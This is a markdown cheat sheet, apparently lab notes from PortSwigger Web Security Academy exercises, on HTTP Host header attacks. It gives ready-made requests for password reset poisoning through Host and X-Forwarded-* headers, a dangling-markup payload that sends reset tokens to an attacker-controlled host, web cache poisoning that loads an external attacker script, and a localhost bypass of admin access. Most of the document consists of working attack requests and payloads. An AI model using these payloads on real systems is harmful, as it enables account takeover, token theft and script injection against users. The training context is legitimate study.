 # Host Header Attacks

- ## Techniques & Bypasses

### Reset Password Poisoning

#### Host Header

```http
POST /forgot-password HTTP/2
Host: xle0x.com

username=carlos
```

The victim will click on the link `https://xle0x.com/reset-password?token=blahdfsfjf`

This sends the token to the `xle0x.com` server's logs.

> [!TIP]
> 📘 **You could try to add another `Host` header with your server.**

#### Other Headers

```http
X-Forwarded-For: xle0x.com
X-Forwarded-Host: xle0x.com
X-Forwarded-Server: xle0x.com
X-HTTP-Host-Override: xle0x.com
Forwarded: xle0x.com
X-Host: xle0x.com
```

#### SUPPLY ABSOLUTE URL

```http
GET **https://vulnerable-website.com/** HTTP/1.1  
**Host: xle0x.com**
```

#### ADD A LINE WRAPPING

```http
GET /blah HTTP/1.1  
	Host: xle0x.com 
Host: vulnerable-website.com
```

#### Dangling markup injection

```http
POST /forgot-password HTTP/2
Host: 0a6b006704acc64181b8840800d60033.web-security-academy.net:1212"><img src="//xle0x?token=

username=carlos
```

When we change the host to `xle0x.com` I got 503 Gateway Error. But when I added the port part,  I bypassed it.
```html
"><img src="//xle0x?token=
```
This code called Dangling markup as it doesn't have a ending tag. It's trying to request your server. (The consequence of the attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data. Depending on the application's functionality, this might include [CSRF](https://portswigger.net/web-security/csrf) tokens, email messages, or financial data.) This is used to bypass some filters and [content security policy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) ([CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)).

---

### Web cache poisoning

##### Request:
```http
GET / HTTP/1.1
Host: 0a3100ec03d5949b826cbf3e00670008.h1-web-security-academy.net
Host: xle0x.com
```
##### Response:
```html
<script type="text/javascript" src="//xle0x.com/resources/js/tracking.js"></script>
```

After It got reflected I created a js file with the same path on my server. and the code executed!

---

### authentication bypass 

#### Request:
```http
GET /admin HTTP/2
Host: vulnerable-website.com
```

#### Response:
```http
HTTP/2 401 Unauthorized
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 5707
```
> [!TIP]
> 📘 change the host to `localhost` or `127.0.0.1` and you may bypass it.
